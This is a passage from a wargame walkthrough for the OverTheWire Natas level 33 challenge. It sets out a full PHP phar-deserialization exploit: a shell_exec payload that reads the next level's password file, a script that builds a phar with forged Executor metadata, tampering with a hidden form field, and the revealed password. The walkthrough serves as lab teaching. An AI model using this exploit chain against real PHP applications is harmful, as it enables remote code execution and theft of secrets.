}
```

The class looks for the file size of our uploaded file, and it it's greater than 4096 bytes, it does nothing but returns a message for us:  

```php
 $this->filename=$_POST["filename"];
if(filesize($_FILES['uploadedfile']['tmp_name']) > 4096) {
    echo "File is too big<br>";
}
```

After that, the file is uploaded and moved to a specific directory, with a given filename:  

```php
if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], "/natas33/upload/" . $this->filename)) {
    echo "The update has been uploaded to: /natas33/upload/$this->filename<br>";
    echo "Firmware upgrad initialised.<br>";
}
else{
    echo "There was an error uploading the file, please try again!<br>";
}
```
The filename comes from a POST variable, called `filename`.  
Now, let's look at the `__destruct` part of this class:  

```php
chdir("/natas33/upload/");
if(md5_file($this->filename) == $this->signature){
    echo "Congratulations! Running firmware update: $this->filename <br>";
    passthru("php " . $this->filename);
}
else{
    echo "Failur! MD5sum mismatch!<br>";
}
```

First, we change directory to the uploaded script's location. Then, the server uses the `md5_file` function to compare the filename's md5 hash value to the previously defined value. That value is `adeafbadbabec0dedabada55ba55d00d`. If they are identical, the script runs the content of the file with the `passthru` command, otherwise it displays an error message.  

Let's look at what we need to do, step by step:  
First, create a file, for example with the name: `task33_part_1.php`. The contents will be the following:  
```php
<?php
    echo "This is from task33_part_1.php, here is goes: \n";
    echo shell_exec("/usr/bin/cat /etc/natas_webpass/natas34");
?>
```
We can use the `shell_exec` command to print out the contents of natas34 password file.

However, we need to make some modification before the file upload. Let's go to the main page of this site, choose the file that we just named `task33_part_1.php`, and select for upload, but do not upload it yet. Instead, Press F12 to open the developer tools. Let's look for the following line:  

  

Look for the following part:  

```html
<input type="hidden" name="filename" value="<SOMETHING>">
```

The `<SOMETHING>` indicates that the value should be different for you. Replace the value with `task33_part_1.php`, and upload the file. You should get a response similar to this:  
```html
The update has been uploaded to: /natas33/upload/task33_part_1.php
Firmware upgrad initialised.
Failur! MD5sum mismatch!
Upload Firmware Update:
```

Now, the second part is the following:  
Let's create a file, named `task33_part_2.php`  
The content should be the following:  

```php
<?php
    class Executor{
        private $filename="task33_part_1.php"; 
        private $signature=true;
        private $init=false;
    }
    $phar = new Phar('task33.phar');
    $phar->startBuffering();
    $phar->addFromString('anything.txt', 'text');
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata(new Executor());
    $phar->stopBuffering();
?>
```

Let's go through the file's content, line by line.  
We create a class, named `Executor`(it is important to name the class the same as we've seen in the natas33 source file), we define the three existing private parameters. The most important values are the following:  
- `private $filename="task33_part_1.php"`
- `private $signature=true;`  

The `$filename` should have a value of the file we've previously updated, and the `$signature` should be true.  
Let's explain the following line:  
```php
    $phar = new Phar('task33.phar');
```
This line creates a phar file. PHAR stands for PHP Archive. PHAR files contains meta data in serialized format. When this file is parsed by the server, the mentioned metadata is deserialized, and can run a set amount of PHP commands.
```php
    $phar->startBuffering();
```
All of our commands should be located between `startBuffering` and `stopBuffering`.  
```php
    $phar->addFromString('anything.txt', 'text');
```
We create a dummy file name, which we can use to later trigger the code deserialization part of our PHAR file. Let's name it anything you want, we will use it later. For now, I name it `anything.txt`, the content is not important.  
```php
    $phar->setStub("<?php __HALT_COMPILER(); ?>");
```
The setStub part is used when we set the PHP loader of a Phar archive.The important part for us, that it should contain the `__HALT_COMPILER();` code.  
```php
    $phar->setMetadata(new Executor());
```
Probably the most important part: we set the metadata, with an instance of our Executor class.  
```php
    $phar->stopBuffering();
```
We stop the buffering, ending our script.  
After this, in the same directory, type in the following command to the command line/terminal:  
```bash
 php --define phar.readonly=0 task33_part_2.php
```
The command will create a new file, named `task33.phar`.  

Now, head back to our website, and start a new upload. You need to press F12 again, to open the source code.

  

Look for the following part:  

```html
<input type="hidden" name="filename" value="<SOMETHING>">
```

The `<SOMETHING>` indicates that the value should be different for you. Replace the value with `task33.phar`, and upload the file. You should get a response similar to this:  

```text
The update has been uploaded to: /natas33/upload/task33.phar
Firmware upgrad initialised.
Failur! MD5sum mismatch!
Upload Firmware Update:
```

Now, here comes the final part: You need to press F12 again, to open the source code.

Look for the following part:  

```html
<input type="hidden" name="filename" value="<SOMETHING>">
```
The `<SOMETHING>` indicates that the value should be different for you. Replace the value with `phar://task33.phar/anything.txt`, and upload the file.  
Let's break down this filename: 
- The `phar://` is used to trigger the server the unserialization of the object inside a phar file.  
- The `task33.phar` is our base filename what we've uploaded in the second part.  
- The `anything.txt` holds the string we've given to the `$phar->addFromString('anything.txt', 'text');` command.  

After upload, you should get a response similar to this:  
```txt
Warning: move_uploaded_file(/natas33/upload/phar://task33.phar/anything.txt): failed to open stream: No such file or directory in /var/www/natas/natas33/index.php on line 27

Warning: move_uploaded_file(): Unable to move '/var/lib/php/uploadtmp/phpWsWM6S' to '/natas33/upload/phar://task33.phar/anything.txt' in /var/www/natas/natas33/index.php on line 27
There was an error uploading the file, please try again!
Failur! MD5sum mismatch!
Upload Firmware Update:
```
However, there is something extra after this message, which should look something like this:  
```txt
Congratulations! Running firmware update: task33_part_1.php
This is from task33_part_1.php, here is goes: F6Fcmavn8FgZgrAPOvoLudNr1GwQTaNG
```

The password for the next level is:  
`F6Fcmavn8FgZgrAPOvoLudNr1GwQTaNG`


http://natas34.natas.labs.overthewire.org/   
username: `natas33`  
password: `F6Fcmavn8FgZgrAPOvoLudNr1GwQTaNG`

For now, this page redirects to `https://overthewire.org/wargames/natas/`.


